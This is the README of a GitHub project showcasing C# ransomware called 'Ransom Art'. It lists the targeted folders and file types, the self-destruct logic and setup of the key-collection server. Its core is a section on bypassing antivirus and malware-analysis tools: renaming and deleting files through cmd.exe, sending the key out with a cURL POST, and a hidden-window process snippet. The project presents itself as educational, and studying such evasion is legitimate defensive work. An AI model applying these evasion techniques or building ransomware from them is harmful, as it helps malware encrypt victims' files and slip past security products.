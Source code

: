 # Ransom Art

The goal of this project is to show how a malware can easily leverage the use of Command Prompt and PowerShell, and how their non-harmful methods can aid the malware to achieve its goal.

**So far I choose to have this source code private because of the security concerns. This repository is purely for showcase. Please do not ask for the source code.**

Windows Forms application made in Visual Studio, written in C# (.NET Framework v4.0).

Ransomware is set to start encrypting files from the `%USERPROFILE%` directory and only inside the `%USERPROFILE%` directory (modify it to your need).

Only the files defined in the list below will be encrypted (modify it to your need):

```csharp
private readonly List<string> extensions = new List<string> { ".txt", ".log", ".pdf", ".doc", ".docx", ".docm", ".ppt", ".pptx", ".pptm", ".xls", ".xlsx", ".xlsm", ".zip", ".7z", ".rar" };
```

All the code you need is in these two files:

* [RansomArt.cs] (Encryptor)
* [RansomArtDecryptor.cs] (Decryptor)

Ransomware will self-destruct if it:
* fails to send the encryption key to the server,
* receives unexpected or no server response,
* finishes encryption/decryption phase.

Ransomware was tested on Windows 10 Enterprise OS version 1909 (64-bit) inside a virtual machine with access to the Internet.

API was tested on XAMPP for Windows v7.4.3 (64-bit) outside the virtual machine – a public address was given with [ngrok](https://ngrok.com/).

Made for educational purposes. I hope it will help!

Ransomware was inspired by [goliate/hidden-tear](https://github.com/goliate/hidden-tear).

## How to Run

**Run this malware exclusively inside a virtual machine and with utmost care; otherwise, you risk of permanently losing your data and/or damaging your PC.**

Import [\\db\\ransom_art.sql](https://github.com/ivan-sincek/ransom-art/blob/master/db/ransom_art.sql) to your database server.

Copy all the content from [\\src\\api\\](https://github.com/ivan-sincek/ransom-art/tree/master/src/api) to your server's web root directory (e.g. to \\xampp\\htdocs\\ on XAMPP).

Change the database settings inside [\\src\\api\\php\\config.ini](https://github.com/ivan-sincek/ransom-art/blob/master/src/api/php/config.ini) as necessary.

Run \\exec\\RansomArt.exe.

Decryption file will be created and run automatically after the encryption phase.

**Executable provided will only work if it is run on the same localhost as the API server.**

You can use [ngrok](https://ngrok.com) to give your XAMPP a public address, but don't forget to change and recompile the source code.

---

On web servers other than XAMPP (Apache) you might need to load `Multibyte String` librabry within PHP.

In XAMPP it is as simple as uncommenting the `extension=mbstring` line in the `php.ini` file.

## Antivirus and Malware Analysis Tool Bypass

Requirements:

* victim needs to have cURL installed,
* victim needs to have access to Command Prompt or PowerShell,
* victim needs to have access to the Internet.

Windows 10 version 1803 and grater have cURL by default.

**This ransomware was tested only on few antiviruses and malware analysis tools! I do not claim nor guarantee that this method will bypass every security product!**

### Antiviruses

Antiviruses will flag any executable as malicious if the executable tries to modify any file on the system in any shape or form (e.g. if the executable tries to rename, rewrite the content of or delete a file) that is older than the executable.

Antiviruses WILL raise an alert on C# methods such as:

```csharp
File.Move(file, file + “.ransom”);

File.WriteAllBytes(file, bytes);

File.Delete(file);
```

Antiviruses will not flag an executable as malicious if the executable runs a new "trusted" process, e.g. `cmd.exe` that will then carry out the rename method. Once a file is successfully renamed, the file's metadata will refresh, and the executable (i.e. malware) can freely write the encrypted content in the file.

Antiviruses WILL NOT raise an alert on Batch rename method:

```batch
CMD.EXE /C MOVE /Y "file" "file.ransom"
```

Antiviruses WILL in fact raise an alert on Batch delete method:

```batch
CMD.EXE /C DEL /F /Q "file"
```

Antiviruses will not raise an alert if a file is moved to a temporary directory and then deleted together with the whole directory.

Antiviruses WILL NOT raise an alert on Batch remove directory method:

```batch
CMD.EXE /C MOVE /Y "file" "temp" && RMDIR /S /Q "temp"
```

### Malware Analysis Tools

Malware analysis tools WILL raise an alert on C# objects such as the `WebClient` object:

```csharp
WebClient client = new WebClient(); client.UploadString("url", "json");
```

Malware analysis tools will not raise an alert if the executable runs a new "trusted" process, e.g. `cmd.exe` that will then contact the API server via cURL.

Malware analysis tools WILL NOT raise an alert on Batch cURL method:

```batch
CMD.EXE /C CURL -X POST –DATA "json" "url"
```

Could be because some sandbox virtual machines lack cURL or up-to-date Windows OS.

On the other hand, some malware analysis tools will send an HTTP GET request to the found URLs, but this will not trigger the damage routine in this ransomware. To trigger the damage routine in this ransomware, a specific HTTP POST request must be sent, and the specific HTTP response must be returned from the API server.

Malware analysis tools WILL raise an alert on root process deletion (i.e. self-destruction):

```batch
CMD.EXE /C TIMEOUT 2 && DEL /F /Q "malware.exe"
```

To bypass the alert, delete the encryptor file with the help of the decryptor file, or just omit the file deletion altogether because most malware analysis tools keep the submitted samples anyway.

### Process Creation Snippet

```csharp
private string CreateProcess(string name, string arguments, bool wait = true)
{
	string response = "";
	Process process = null;
	try
	{
		process = new Process();
		process.StartInfo = new ProcessStartInfo();
		process.StartInfo.FileName = name;
		process.StartInfo.Arguments = arguments;
		process.StartInfo.CreateNoWindow = true;
		process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
		process.StartInfo.UseShellExecute = false;
		process.StartInfo.RedirectStandardOutput = true;
		// suppress possible errors
		process.StartInfo.ErrorDialog = false;
		process.EnableRaisingEvents = false;
		process.Start();
		if (wait)
		{
			// pipe the response back to the main program
			response = process.StandardOutput.ReadToEnd();
			// make the method synchronous for cURL and rename methods
			process.WaitForExit();
		}
	}
	catch (Exception) { }
	finally
	{
		if (process != null)
		{
			process.Dispose();
		}
	}
	return response;
}
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/ransom-art/blob/master/img/encryptor.jpg" alt="Encryptor"></p>

<p align="center">Figure 1 - Encryptor</p>

<p align="center"><img src="https://github.com/ivan-sincek/ransom-art/blob/master/img/decryptor.jpg" alt="Decryptor"></p>

<p align="center">Figure 2 - Decryptor</p>

<p align="center"><img src="https://github.com/ivan-sincek/ransom-art/blob/master/img/db.jpg" alt="Database"></p>

<p align="center">Figure 3 - Database</p>
